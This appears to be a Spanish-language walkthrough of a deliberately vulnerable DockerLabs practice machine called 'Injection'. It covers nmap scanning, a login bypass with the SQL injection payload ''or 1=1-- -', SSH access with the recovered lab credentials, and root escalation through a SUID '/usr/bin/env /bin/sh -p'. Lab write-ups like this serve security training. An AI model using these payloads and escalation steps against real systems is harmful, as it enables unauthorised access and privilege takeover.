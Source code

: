 # 🖥️ Máquina Injection
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 3 172.17.0.2
```

Este comando enviará solo 3 paquetes ping a la dirección IP designada (172.17.0.2) y luego terminará.

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ Nmap:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 
```

🔎 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso**
- `-sC` Usa **scripts por defecto**
- `--open` Muestra **solo puertos abiertos**
- `-sV` Detecta la **versión de los servicios**
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s**
- `-n` Sin resolución DNS
- `-vvv` Modo muy detallado
- `-Pn` Sin ping al host antes de escanear
- `-oN` Guarda el resultado en la ruta especificada

---

## 📊 Resultado del escaneo

```
Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
...
```

Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

---

## 🌐 Acceso Web

Colocamos la dirección IP `172.17.0.2` en el navegador 🌍. Nos pedirá usuario y contraseña:

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-20-49.png)

---

## 🧨 Ataque de inyección SQL

Probamos un ataque de **inyección SQL**:

```sql
'or 1=1-- - 
```

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-20-49.png)

🔐 Obtuvimos credenciales:

```
user : dylan
contraseña: KJSDFG789FGSDF78
```

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-20-49.png)

---

## 🔐 Conexión SSH

Probamos conectarnos vía SSH:

```bash
ssh dylan@172.17.0.2
# contraseña: KJSDFG789FGSDF78
```

---

# 🧗 Escala de Privilegios

Buscamos binarios con permisos SUID:

```bash
find / -perm -4000 -user root 2>/dev/null
```

📄 Resultado:

```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
...
/usr/bin/env
...
```

📌 El binario `/usr/bin/env` tiene permisos SUID, lo que puede permitir una **escalada de privilegios**.

---

## 🔓 Escalada usando `env`

```bash
./env /bin/sh -p
```

⚠️ Si aparece el error:

```
-bash: ./env: No such file or directory
```

🔧 La solución es ejecutar el comando desde el directorio correcto:

```bash
cd /usr/bin
./env /bin/sh -p
# whoami
root
```
